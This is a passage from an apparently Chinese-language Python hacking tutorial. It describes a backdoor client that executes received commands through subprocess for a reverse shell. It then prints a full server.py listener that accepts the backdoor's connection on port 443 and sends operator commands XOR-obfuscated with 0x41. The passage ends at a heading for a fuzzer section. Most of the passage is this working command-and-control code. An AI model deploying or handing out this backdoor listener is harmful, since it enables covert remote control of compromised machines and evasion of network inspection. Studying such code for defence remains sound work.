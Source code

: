 连接服务器，接受传递的命令，通过`subprocess`模块运行命令并将输出保存为变量，可以将输出内容传递出去，获得`反射shell`。

再建立一个监听后门程序的服务程序`server.py`:

```python
import socket

s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind(("0.0.0.0", 443))

s.listen(2)

print "Listening on port 443... "

(client, (ip, port)) = s.accept()

print " Received connection from : ", ip

while True:
    command = raw_input('~$ ')
    encode = bytearray(command)

    for i in range(len(encode)):
        encode[i] ^=0x41

    client.send(encode)
    en_data=client.recv(2048)
    decode = bytearray(en_data)

    for i in range(len(decode)):
        decode[i] ^=0x41

    print decode

client.close()
s.close()
```

一旦有后门程序连接，则输入命令并获取执行后结果。



# <a name='5'>[0x3 - 漏洞检查工具(Fuzzer)](#5)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)
